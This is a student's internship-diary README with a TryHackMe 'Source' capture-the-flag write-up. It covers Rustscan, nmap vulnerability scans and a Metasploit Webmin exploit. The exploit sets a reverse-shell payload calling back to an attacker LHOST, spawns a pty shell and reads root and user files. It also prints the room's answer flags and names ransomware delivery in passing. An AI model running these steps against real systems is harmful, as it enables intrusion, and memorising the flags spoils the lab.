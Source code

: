 # Cyber Security Internship Diary

Welcome back to my Cyber Security Internship Diary! This repository documents my daily learnings and experiences during my internship in the field of Cyber Security. Here, I'll share insights, concepts, and practices that I encounter throughout this journey.

## Day-09: TryHackMe Room ([Source](https://tryhackme.com/r/room/source))

Today, I explored several new tools and concepts while working through a TryHackMe room. Here are the key learnings:

### 1. Rustscan
Rustscan is a fast port scanner that is designed to quickly scan for open ports on a target machine. It uses the Rust programming language, which provides both speed and reliability.

### 2. Metasploit
Metasploit is a powerful penetration testing framework that helps security professionals identify and exploit vulnerabilities in various systems. It offers a wide range of tools and exploits that can be used to simulate real-world attacks.

### 3. MFConsole (Usage Example)
MFConsole is the command-line interface for Metasploit. It allows users to interact with the Metasploit framework and perform various tasks such as launching exploits and running auxiliary modules.

**Usage Example:**
MFConsole can be used to deploy payloads in scenarios such as ransomware attacks or other malicious activities. For instance, an attacker might use Metasploit to deliver a ransomware payload that encrypts files on the target machine, demanding a ransom for decryption.

### 4. RHOSTS & LHOST
- **RHOSTS:** This stands for "Remote Hosts" and refers to the IP address(es) of the target machine(s) that you are attacking. It tells Metasploit which machine(s) to direct the exploit towards.
  
- **LHOST:** This stands for "Local Host" and refers to the IP address of the attacker's machine. It is used to receive the connection back from the target machine once the payload has been executed.

### 5. Web-Extension Hack-Tools
Hack-Tools is a web extension that provides a wide range of tools for web penetration testing. It includes features such as encoding/decoding, IP address lookup, and various other utilities that are useful for web security assessments.

### 6. Nmap vs. Rustscan

| Feature        | Nmap                                      | Rustscan                               |
|----------------|-------------------------------------------|----------------------------------------|
| Speed          | Slower due to comprehensive scanning      | Very fast, designed for quick scans    |
| Flexibility    | Highly flexible with many options         | Less flexible, focuses on speed        |
| Programming    | Written in C                              | Written in Rust                        |
| Usage          | Widely used for detailed network analysis | Best for quick port scanning           |
| Installation   | Available on most systems                 | Requires installation of Rust          |

### Here is how i did the CTF 

#### Starting with the setting up the openvpn with the room if you don't know how to setup the openvpn then follow this [Openvpn-setup](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-07/README.md).
After that i have learned a new and cool way to store the to store the ip address of the machine given to us by the tryhackme
```
sudo nano /etc/hosts
ip address  source.com

```
Now we have kept the ip in a very cool way lets nmap the site so we can get the deatils 
```
 sudo nmap -Pn -p- -sV --script vuln -vv -oN noping-sv-sc-source.txt source.com

```
![]()

When you try this you will know that it is taking a long time we can do a short alternative download rustscan. Download this only from this site their are malicous code on the internet [Rustscan](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan_2.2.3_amd64.deb)
after then we run the command 
```
 sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

```
![]()

But the problem with the rustscan is that it only gives us the port avaliable as fast as possible but it doesn not provide us the services running on that port. So we need the nmap for this 
```
 sudo nmap -p(port no.) -sV source.com
  
```
After we get the service search the exploit on the exploitdb 

We use Metasploit for the futher the nessary commands for the further excutions are listed below
```
 msfconsole

```
![]()
```
search Webmin

```
![]()
```
use 7
show options
```
![]()
```
set RHOSTS 10.10.180.246
```
```
set LHOST 10.17.88.92
```
```
set LPORT 5566
```
```
show options
```
![]()

Now after all the above the things do these final things one after anothers 
```
exploit
set AutoCheck false
show payloads (select the payload with no. 41)
set payload cmd/unix/reverse
set SSL true
show options 
```
![]()

After all above things now just put this command and then hit enter.
``` exploit ```
![]()
After this enter the following commands 
```
python -c 'import pty; pty.spawn("/bin/bash")'
cd
ls
cat root.txt

```

After this lets find the user.txt 
```
cd /ho
ls
cd /dark
ls
cat user.txt
```
# Task1 
### Answer the questions below
#### user.txt
``` THM{SUPPLY_CHAIN_COMPROMISE} ```
#### root.txt
``` THM{UPDATE_YOUR_INSTALL} ```
## Conclusion
Today, I delved into several advanced tools and concepts that are crucial for penetration testing and cyber security. These tools, including Rustscan and Metasploit, along with their various features and commands, are invaluable for any security professional. 

Stay tuned for more updates and insights from my ongoing journey in the world of Cyber Security!


